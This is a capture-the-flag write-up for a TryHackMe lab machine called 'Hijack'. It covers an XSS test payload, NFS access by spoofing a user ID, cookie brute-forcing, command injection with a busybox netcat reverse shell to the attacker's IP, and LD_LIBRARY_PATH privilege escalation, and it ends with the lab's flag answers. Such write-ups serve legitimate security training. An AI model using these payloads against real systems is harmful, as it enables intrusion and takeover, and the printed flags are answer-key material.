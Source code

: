 # Hijack
(Flags are at the end of the writeup)

### Deploy the machine and get the flags!
Initial scan finds ports 21,22,80,111,2049,35287,41763,47944,49228 open.<br />
After further enumeration, I found that the `username` parameter is vulnerable to XSS. To prove it, I tried using `"><script>alert(1)</script>`, and it worked:<br />
![image](https://github.com/user-attachments/assets/556f544c-3bd3-4857-a0cf-f4aa1832e42e)<br />
I then checked the nfs service, the command to mount the shared file system is `sudo mount -t nfs 10.10.246.225:/mnt/share mount -o nolock`<br />
However only user with ID=1003 can access the shared filesystem.<br />
![image](https://github.com/user-attachments/assets/d84ec36c-483b-4c3f-a340-3b988fa4d12b)<br />
So we need to create another user with ID=1003 with `sudo useradd -u 1003 hijack`. Give a password to that user with `sudo passwd hijack`
After logging with the new user, I found some FTP credentials:<br />
![image](https://github.com/user-attachments/assets/762f5a5e-ebee-4a1c-97f9-a2bf1db0456f)<br />
Remember to remove the user with `sudo userdel hijack`. So I logged in the FTP server and found some other files:<br />
![image](https://github.com/user-attachments/assets/a3237956-df3d-4696-956c-0639f520f66d)<br />
The `passwords_list.txt` file contains, guess what, a list of complex passwords. I think I need to use this list to bruteforce something. So I tried bruteforcing the login page to access the administration panel. 
If you examine the cookie, you can see it's a base64 encoded string with the following format: `user:MD5_hashed_password`. So since we know that a user called `admin` exists, and we have the password list, then we have every ingredient to bruteforce logins.
To do that, I created (thanks, Mr. GPT), a python script called `brutecookie.py` that you can find inside this folder. Remember to change the parameters according to your instance before executing the script.<br />
![image](https://github.com/user-attachments/assets/c9ab8a6d-a882-4a69-9eb2-5298f9d37f4d)<br />
Great, we can now login using this password!<br />
![image](https://github.com/user-attachments/assets/67e4bff7-e207-4bfa-889c-f51bdc05c73f)<br />
It seems like a page to check which services exists on the host. So my guess is that it executes something like `systemctl status example.service`. So I immediatly tought of command injection. `;` gets detected, then I tried `example && whoami` and it worked!<br />
![image](https://github.com/user-attachments/assets/71ccdabd-303e-4378-baf7-483db20e0282)<br />
Time to get a reverse shell. Open a nc listener and run use the following payload `& busybox nc 10.11.108.100 4444 -e sh`.<br />
I immediately found credentials inside `confing.php`:<br />
![image](https://github.com/user-attachments/assets/de2653f1-c3f3-4de4-9502-3117292f4123)<br />
They look like mysql credentials, and I think they are, but I used them to access rick's account through ssh and get the first flag. <br />
Running `sudo -l` we get the following:<br />
![image](https://github.com/user-attachments/assets/a55d25fe-2c56-4435-8deb-e636213e3087)<br />
We can execute a binary called `apache2` and have also access to the LD_LIBRARY_PATH. LD_LIBRARY_PATH allows us to specify where the program should go look for shared libraries/objects first. So the idea is to take the name of any of the libraries used by the `apache2` binary, and create a malicious script with that exact name inside a folder that we have access to. <br /> Run `ldd /usr/sbin/apache2` to see the shared object used by the binary.
I'm gonna take `libdl.so.2`. So, first of all, create the malicious .c file; you can find it inside this folder, called `exploit.c`. Then, compile it using the following command: `gcc -o /tmp/libdl.so.2 -shared -fPIC exploit.c`. Then, run the binary after setting the evnvironment variable, with the following command: `sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2`:<br />
![image](https://github.com/user-attachments/assets/b32556c3-a386-4c53-92b7-c6a704b5e511)<br />



- What is the user flag? `THM{fdc8cd4cff2c19e0d1022e78481ddf36}`
- What is the root flag? `THM{b91ea3e8285157eaf173d88d0a73ed5a}`
